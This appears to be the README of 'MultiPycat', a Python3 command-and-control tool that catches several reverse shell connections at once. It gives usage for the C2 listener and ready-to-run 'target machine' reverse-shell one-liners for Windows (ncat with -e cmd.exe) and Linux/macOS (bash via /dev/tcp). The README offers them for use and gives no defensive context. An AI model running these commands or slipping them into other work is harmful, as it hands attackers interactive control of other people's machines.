 # MultiPycat
Multiple reverse shell connections handler written in python3.

# Features
* Simultaneously accept multiple reverse shell connections from different devices
* Interacting with connections and going back and forth to the main interface
* Simplistically written in Python3
* No external dependencies or libraries

# Usage
Install `python3` or use the executable in the releases section

Run on C2 (Tested on Windows and Linux)
```
python3 MultiPycat.py <LISTENING PORT>
MultiPycat> help
```

Target machine examples
```
# windows
ncat <HOST> <PORT> -e cmd.exe

# linux/ macOS
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1 &
```
